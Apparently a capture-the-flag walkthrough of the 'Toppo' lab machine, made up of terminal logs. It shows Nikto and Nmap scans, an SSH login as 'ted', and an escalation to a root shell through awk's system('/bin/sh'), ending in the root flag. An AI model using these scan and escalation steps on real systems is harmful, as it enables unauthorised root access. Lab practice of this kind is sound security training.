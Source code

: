 ```
root@hal:~# nikto -h 192.168.57.3
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.57.3
+ Target Hostname:    192.168.57.3
+ Target Port:        80
+ Start Time:         2019-01-10 15:01:39 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2019-01-10 15:01:48 (GMT5.5) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
*****

```
root@hal:~# nmap -v -sS -A -T4 -p- 192.168.57.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-10 14:54 IST
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:54
Completed NSE at 14:54, 0.00s elapsed
Initiating NSE at 14:54
Completed NSE at 14:54, 0.00s elapsed
Initiating ARP Ping Scan at 14:54
Scanning 192.168.57.3 [1 port]
Completed ARP Ping Scan at 14:54, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:54
Completed Parallel DNS resolution of 1 host. at 14:54, 0.00s elapsed
Initiating SYN Stealth Scan at 14:54
Scanning 192.168.57.3 [65535 ports]
Discovered open port 22/tcp on 192.168.57.3
Discovered open port 80/tcp on 192.168.57.3
Discovered open port 111/tcp on 192.168.57.3
Discovered open port 43389/tcp on 192.168.57.3
Completed SYN Stealth Scan at 14:54, 2.16s elapsed (65535 total ports)
Initiating Service scan at 14:54
Scanning 4 services on 192.168.57.3
Completed Service scan at 14:54, 11.01s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 192.168.57.3
NSE: Script scanning 192.168.57.3.
Initiating NSE at 14:54
Completed NSE at 14:54, 0.51s elapsed
Initiating NSE at 14:54
Completed NSE at 14:54, 0.00s elapsed
Nmap scan report for 192.168.57.3
Host is up (0.00046s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
53/tcp    filtered domain
80/tcp    open     http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          43389/tcp  status
|_  100024  1          46855/udp  status
43389/tcp open     status  1 (RPC #100024)
MAC Address: 08:00:27:04:A2:14 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.840 days (since Mon Jun 25 18:45:01 2018)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.57.3

NSE: Script Post-scanning.
Initiating NSE at 14:54
Completed NSE at 14:54, 0.00s elapsed
Initiating NSE at 14:54
Completed NSE at 14:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds
           Raw packets sent: 65559 (2.885MB) | Rcvd: 65549 (2.623MB)

```
****





root@hal:~# ssh ted@192.168.57.3
The authenticity of host '192.168.57.3 (192.168.57.3)' can't be established.
ECDSA key fingerprint is SHA256:+i9tqbQwK978CB+XRr02pS6QPd3evJ+lueOkK1LTtU0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.57.3' (ECDSA) to the list of known hosts.
ted@192.168.57.3's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$ ls -la
total 24
drwxr-xr-x 2 ted  ted  4096 Apr 15  2018 .
drwxr-xr-x 3 root root 4096 Apr 15  2018 ..
-rw------- 1 ted  ted     1 Apr 15  2018 .bash_history
-rw-r--r-- 1 ted  ted   220 Apr 15  2018 .bash_logout
-rw-r--r-- 1 ted  ted  3515 Apr 15  2018 .bashrc
-rw-r--r-- 1 ted  ted   675 Apr 15  2018 .profile
ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk

ted@Toppo:~$ which nc
/bin/nc
ted@Toppo:~$ awk 'BEGIN {system("whoami")}'
root
ted@Toppo:~$ cd /root/
-bash: cd: /root/: Permission denied
ted@Toppo:~$ sudo -l -l
-bash: sudo: command not found
ted@Toppo:~$ awk 'BEGIN {system("/bin/sh")}'
# root
/bin/sh: 1: root: not found
# ls
# 
# cd /root/
# ls
flag.txt
# cat flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



# 
